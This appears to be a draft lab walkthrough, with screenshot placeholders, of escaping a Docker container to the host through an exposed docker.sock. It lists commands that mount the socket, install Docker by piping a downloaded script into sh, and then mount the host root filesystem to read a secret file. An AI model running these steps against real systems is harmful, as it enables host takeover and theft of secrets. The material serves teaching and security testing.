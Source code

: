 # Docker Daemon Direct Access

---

    * A malicious user who gains access to a container where the `docker.sock` of host machine is exposed, can gain access to the host machine.

Steps:

    Pre-Steps to be done?? @tilak
    1. Run the shellshock / vul_flask docker and volume expose. Launch another malicious container through that and gain access to host..

    
Step 1. Gain access(RCE) to a vulnerable container where host machines' `docker.sock` is exposed or just run a container with volume exposed docker.sock
    a. Run `docker run -ti -v /var/run/docker.sock:/var/run/docker.sock ubuntu:16.04`
    
        Screenshot here
        
Step 2: Install docker-engine by running `apt-get update && apt-get install wget -y && wget -qO- https://get.docker.com | sh`.
    
        Screenshot here
        
Step 3: Once docker is installed, run `docker run -ti -v /:/hostFS/ ubuntu:16.04 /bin/bash`
    
        Screenshot here

Step 4: The `secret` file will now be accessible by the malicious user at `/hostFS/root/`
    
        Screenshot here

Step 5: Malicious user now has complete access to the root Filesystem of the host machine.

        Screenshot here
